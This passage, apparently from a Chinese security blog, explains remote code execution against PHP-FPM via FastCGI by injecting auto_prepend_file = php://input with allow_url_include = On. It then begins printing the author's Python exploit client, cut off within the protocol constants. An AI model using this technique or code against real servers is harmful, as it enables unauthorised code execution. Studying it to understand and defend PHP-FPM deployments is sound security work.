 设置`auto_prepend_file = php://input`且`allow_url_include = On`，然后将我们需要执行的代码放在Body中，即可执行任意代码。

效果如下：

[![14931311523859.jpg](https://www.leavesongs.com/media/attachment/2017/04/25/e3c3329d-4e0e-4eec-9ea6-4e621cf01f9b.f4321b6236f8.jpg)](https://www.leavesongs.com/media/attachment/2017/04/25/e3c3329d-4e0e-4eec-9ea6-4e621cf01f9b.jpg)

## EXP编写

上图中用到的EXP，就是根据之前介绍的fastcgi协议来编写的，代码如下：https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75 。兼容Python2和Python3，方便在内网用。

代码：

```python
import socket
import random
import argparse
import sys
from io import BytesIO
import base64
import urllib
# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client
PY2 = True if sys.version_info.major == 2 else False
def bchr(i):
if PY2:
return force_bytes(chr(i))
else:
return bytes([i])
def bord(c):
if isinstance(c, int):
return c
else:
return ord(c)
def force_bytes(s):
if isinstance(s, bytes):
return s
else:
return s.encode('utf-8', 'strict')
def force_text(s):
if issubclass(type(s), str):
return s
if isinstance(s, bytes):
s = str(s, 'utf-8', 'strict')
else:
s = str(s)
return s
class FastCGIClient:
"""A Fast-CGI Client for Python"""
# private
__FCGI_VERSION = 1
__FCGI_ROLE_RESPONDER = 1
__FCGI_ROLE_AUTHORIZER = 2
__FCGI_ROLE_FILTER = 3
__FCGI_TYPE_BEGIN = 1
__FCGI_TYPE_ABORT = 2
__FCGI_TYPE_END = 3
__FCGI_TYPE_PARAMS = 4
__FCGI_TYPE_STDIN = 5
__FCGI_TYPE_STDOUT = 6
__FCGI_TYPE_STDERR = 7
__FCGI_TYPE_DATA = 8
__FCGI_TYPE_GETVALUES = 9
__FCGI_TYPE_GETVALUES_RESULT = 10
```